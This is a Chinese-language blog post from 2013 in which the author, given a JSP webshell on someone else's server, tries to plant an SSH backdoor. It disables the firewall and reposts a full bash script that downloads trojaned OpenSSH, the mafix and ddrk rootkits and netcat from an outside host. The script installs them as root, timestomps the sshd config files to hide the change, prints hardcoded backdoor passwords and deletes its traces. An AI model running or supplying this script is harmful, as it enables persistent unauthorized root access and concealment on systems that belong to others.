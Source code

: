 ```yaml
---
layout: post
title: SSH连接引发的血案
date: 2013-07-02 01:42
author: DEMON
comments: true
categories: system
---
```

今天干了特脑残的一件事，机油丢我一jsp的shell。我试图帮他留一个ssh后门。 但是 光看了shell的提示的ip，有两个，都是公网地址。于是乎小弟很自然的认为其为公网独立IP。不过连接时总是超时。于是做了以下两件事：

1.service iptables stop     

2.service sshd restart  或者  ssh./etc/init.d/sshd restart

具体就是重启服务，关闭防火墙。   可是如此做以后还是发现connection  timeout。怎么办？又考虑了一个办法 ，      修改server端 的 /etc/ssh/sshd_config ClientAliveInterval设置为60，ClientAliveCountMax设置为3，至于Client端，ServerAliveInterval和  ServerAliveCountMax设置为类似。

附上ssh后门连接方法，

参考链接：

<a href="http://www.cnblogs.com/fnng/archive/2012/02/21/2362013.html">http://www.cnblogs.com/fnng/archive/2012/02/21/2362013.html</a>  PUTTY直接连接用户

或者用xshell---&gt; ssh <a href="mailto:root@192.168.1.146">root@192.168.1.146</a>填入用户名输入密码

<a href="http://blog.163.com/lgh_2002/blog/static/44017526201011333227161/">http://blog.163.com/lgh_2002/blog/static/44017526201011333227161/</a>      SSH后门

参考linux后门速成shell脚本：

++++++++++++++++++++++++++++++++++++++++++++++++++

<span style="color: #ff0000;">#!/bin/bash</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">clear</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo -e "\033[1;035m \n"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '###############################'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '#-----------------------------#'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '#   WelCome to [url]www.90sec.org[/url]  #'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '#         hello I is helen    #'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '#           By:Mr,PriNce      #'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '#-----------------------------#'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo '###############################'</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">if [ $(id -u) != 0 ];then</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo sorry,!root....</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">exit 1</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">fi</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">if [[ $1 -gt 4 ]] || [[ $1 == "" ]];then</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "###############################"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "#-----------------------------#"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "#      1:sshbd backdoor       #"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "#      2:mafix backdoor       #"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "#      3:ddrk  backdoor       #"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "#         4:Netcat            #"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "#-----------------------------#"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "###############################"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">fi</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">ssh1="<a href="http://www.gome.com.hk/attachment/mc/sshbd.gz"><span style="color: #ff0000;">http://www.gome.com.hk/attachment/mc/sshbd.gz</span></a>"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">ssh2="<a href="http://www.gome.com.hk/attachment/mc/mafix.tar.gz"><span style="color: #ff0000;">http://www.gome.com.hk/attachment/mc/mafix.tar.gz</span></a>"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">ssh3="<a href="http://www.gome.com.hk/attachment/mc/ddrk-rootkit.tar"><span style="color: #ff0000;">http://www.gome.com.hk/attachment/mc/ddrk-rootkit.tar</span></a>"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">ssh4="<a href="http://www.gome.com.hk/attachment/mc/netcat.tar.gz"><span style="color: #ff0000;">http://www.gome.com.hk/attachment/mc/netcat.tar.gz</span></a>"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">dir="/tmp/"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">if [[ $1 -eq 1 ]];then</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">port=$(grep Port /etc/ssh/sshd_config)</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "Current ssh $port"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">read -p Enter:</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">wget $ssh1 -O $dir/sshbd.gz</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd $dir</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">tar zxvf sshbd.gz</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd openssh</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">./configure --prefix=/usr --sysconfdir=/etc/ssh</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">make &amp;&amp; make install</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">touch -r /etc/ssh/sshd_config.old /etc/ssh/sshd_config</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">touch -r /etc/ssh/ssh_config.old /etc/ssh/ssh_config</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">/etc/init.d/sshd restart</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo Current ssh $port</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "sshbd backdoor install ok"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "Username:root Password:995430aaa"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">rm -rf /tmp/openssh /tmp/sshbd*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">exit</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">fi</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">if [[ $1 -eq 2 ]];then</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">wget $ssh2 -O $dir/mafix.tar.gz</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd $dir</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">tar zxvf mafix*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd mafix*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">read -p "Enter Backdoor Passwords:" ID</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">read -p "Enter Backdoor ssh Port:" back</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">./root $ID $back</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "mafix backdoor install ok"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "Current Port:" $back</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">rm -rf /tmp/mafix*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">exit</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">fi</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">if [[ $1 -eq 3 ]];then</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">wget $ssh3 -O $dir/ddrk-rootkit.tar</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd $dir</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">tar xvf ddrk-rootkit*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd ddrk</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">./setup</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "ddrk backdoor install ok"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "Username:root Passwords:123456"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "Port:43958"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">rm -rf /tmp/ddrk*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">exit</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">fi</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">if [[ $1 -eq 4 ]]; then</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">wget $ssh4 -O $dir/netcat.tar.gz</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd $dir</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">tar zxvf netcat.tar.gz</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">cd netcat*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">./configure</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">make &amp;&amp; make install</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">echo "Netcat install ok"</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">rm -rf /tmp/netcat*</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">exit</span>
<span style="color: #ff0000;"> </span>
<span style="color: #ff0000;">fi</span>

++++++++++++++++++++++++++++++++++++++++++++++++++

感谢以上文章作者。

最后说一句，最后知道是内网是盆友惊醒俺ifconfig了一下。顿时觉得手贱了。。

&nbsp;

&nbsp;

&nbsp;
